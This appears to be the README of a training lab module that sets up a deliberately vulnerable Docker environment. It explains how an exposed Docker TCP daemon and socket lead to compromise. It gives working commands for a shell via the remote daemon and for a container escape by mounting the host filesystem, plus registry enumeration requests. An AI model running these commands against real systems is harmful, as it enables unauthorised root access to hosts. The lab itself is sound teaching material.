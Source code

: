 # Docker-Security-Flaws 


## Installation
This module shows two of many possible misconfiguration in Docker environments that could lead to security-related vulnerabilities.
To use it, the `ssh.sh` script, as well as the `docker-security-flaws.sh` script must be included in `modules.txt`. After running the makeVM.sh script, the vulnerable docker setup is ready to use.

## Writeup


- When enumerating ports, you will find port `5500` running a docker registry
- its possible to interact with such registrys via an api


### RCE 

`docker -H tcpL//localhost:4444 exec -it registry /bin/sh`

- provides us a shell inside the container 


### Escaping docker container via exposed socket

- exposed socket in `/var/run`
- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`









## Further information

### Registriy discovery

When discovering a registry, it is always useful to enumerate it further. For example, it is possible to find out all repositories registered on this registry. This is possible as follows:

`GET http://<IP>:<PORT>/v2/_catalog`

Each repository has at least one 'tag' (latest), which can be used for further enumeration. Tags are often software versions or architecture notes.

Its possible to query all published tags via:

`GET http://<IP>:<PORT>/v2/repository/<name>/tags/list`

Its furthermore possible to enumerate a specific repository and the manifest like so:

`GET http://<IP>:<PORT>/v2/cmnatic/<name>/manifests/<tag>`

So it is partly possible to pick off deep hanging fruits and to discover for example information disclosures or default credentials.

### Socket

In most cases, people associate the word socket with network connections. In this case, however, it is a Unix socket. Simply put, UNIX sockets accomplish the same goal as network sockets - transferring data. However, in the host itself with the help of the file system, unlike network interfaces

Due to the fact that UNIX sockets use the filesystem directly, you can use filesystem permissions to decide who or what can read/write. 

Users interact with Docker by using the Docker Engine. For example, commands such as `docker pull` or `docker run` will be executed by the use of a socket - this can either be a UNIX or a TCP socket, but by default, it is a UNIX socket. This is why you must be a part of the "docker" group to use the docker command (remembering that UNIX sockets can use file permissions here!).

Developers love to automate, and this is proven nonetheless with Docker. Whilst Docker uses a UNIX socket, meaning that it can only interact from the host itself. However, someone may wish to remotely execute Docker commands such as in Docker management tools like Portainer or DevOps applications like Jenkins to test their program.


To achieve this, the daemon must use a TCP socket instead, permitting data for the Docker daemon to be communicated using the network interface and ultimately exposing it to the network for us to exploit.

It would be advisable to use some form of authentication (e.g., a proxy) to prevent misuse, as shown in this vulnerable machine.
